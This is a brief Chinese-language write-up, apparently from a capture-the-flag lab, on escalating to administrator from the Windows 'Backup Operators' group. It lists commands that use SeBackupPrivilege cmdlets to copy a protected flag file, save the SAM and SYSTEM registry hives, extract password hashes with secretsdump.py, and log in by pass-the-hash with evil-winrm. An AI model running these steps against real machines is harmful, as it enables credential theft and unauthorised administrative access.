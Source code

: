 "Backup Operators"组 没有管理权限，但对所有文件及注册表具有读写权限。因此，可以通过dump SAM和SYSTEM文件达到间接获得管理员权限的目的。

```sh
# https://github.com/k4sth4/SeBackupPrivilege
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Set-SeBackupPrivilege
Get-SeBackupPrivilege
dir C:\Users\Administrator\flag\
Copy-FileSeBackupPrivilege C:\Users\Administrator\flag\flag02.txt .\flag02.txt
```


by reg
```sh
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
python3 secretsdump.py -sam sam.bak -system system.bak LOCAL（本地处理）
evil-winrm -i IP -u Administrator -H hash_value
```